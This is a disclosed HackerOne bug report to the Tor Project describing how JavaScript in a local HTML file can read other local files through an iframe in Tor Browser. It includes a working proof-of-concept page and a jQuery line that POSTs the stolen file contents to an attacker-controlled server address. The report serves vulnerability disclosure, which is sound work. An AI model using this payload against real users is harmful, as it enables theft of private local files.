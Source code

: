 # Access to local file system using javascript

## Report Details
- **Report ID**: 258630
- **URL**: https://hackerone.com/reports/258630
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-08-10T14:59:01.413Z
- **Disclosed**: 2017-11-18T09:28:06.412Z

## Reporter
- **Username**: cuso4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
Issue :

Access to local file system using javascript(slightly xss on server side )

The browser can access the local files using iframes with a local html file. this is very normal and often used for local web development but javascript shouldn't be able to get the content of that iframe because this can be used to post the contents to the attackers server. something else I noticed is that it's not limited to the same directory.


Steps to Reproduce :


save a html file from here and open in tor browser .

<html>
<body>
<div id='div1'>
</div>
<script>
current_href = document.location.href
frame = document.createElement('iframe'); frame.src = current_href.replace('file:///home/jnsjns/Desktop/poc5.html', 'file:///home/jnsjns/Desktop/1.txt'); frame.id = 'frm'; document.getElementById('div1').appendChild(frame)
setTimeout(function func(){loot = document.getElementById('frm').contentWindow.document.getElementsByTagName('pre')[0].innerHTML
alert('Your data is: ' + loot)
}, 500)
</script>
</body>
</html>



Explaination :  file:///home/jnsjns/Desktop/poc5.html  this is my test html here.

                file:///home/jnsjns/Desktop/1.txt is server side local file in tor browser 

the private file is coming by popup (I have tested in chrome -Google ,they are safe from this )


What attacker can do ?


I would have been able to post it to my server using jquery like this.

//Gets data from iframe and saves it to the getdata variable
getdata = document.getElementsByTagName('frm')[0].contentWindow.document.getElementsByTagName('pre')[0].innerHTML
//Posts to the php server located at 192.168.0.102 (local address for demo purposes)
$.ajax({type: "POST", url: "http://192.168.0.102/post.php", data: {string:getdata}});}


This issue may critical .


Regards.






## Attachments
No attachments
